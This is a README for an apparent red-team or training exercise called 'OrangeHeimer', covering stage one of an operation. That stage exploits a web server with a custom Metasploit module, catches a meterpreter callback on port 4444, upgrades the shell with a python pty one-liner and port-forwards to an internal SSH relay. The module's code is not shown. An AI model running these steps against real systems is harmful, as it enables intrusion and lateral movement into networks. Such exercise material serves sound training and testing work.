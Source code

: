 # OrangeHeimer
## Network Diagram
![Orangeland Op Plan](https://github.com/user-attachments/assets/509ea69d-9de2-4575-a09f-db2846e0078a)
## Stage 1: Oranco Mining Web Server Exploitation
### Objective
- exploit web server and set up connection to internal relay SSH
### Files:
- orangeland.py	– metasploit module
- stage1.rc – metasploit rc file
### IPs and Ports:
- all can be customized in stage1.rc file
- thrower box	10.0.1.21:4444
- oranco Web	10.0.1.1:8443
- thrower SSH	127.0.0.1:22
- relay SSH	172.31.82.221:22
### How to Run:
- chmod +x orangeland.py
- move orangeland.py into metasploit-framework/embedded/framework/modules/exploits/unix/webapp/
- msfconsole -r exploit.rc -- may need to be run with sudo
### Possible Failures:
orangeland.py has been tested on multiple ops and should work, if it doesn’t, then verbally harass the analysts.
portfwd add is the only new command, if this fails:
- verify that the SSH server is running at the IP and port as indicated, if they are different, re run the portfwd command with -p <SSH_PORT> -r <SSH_IP>
- run shell in meterpreter, upgrade using python3 -c 'import pty; pty.spawn("/bin/bash")', and verify that the SSH credentials work
- run the portfwd command with a different thrower port using -l <THROW_PORT> Note, this means that all future SSH commands cannot use sshpass and must use -p <THROW_PORT>
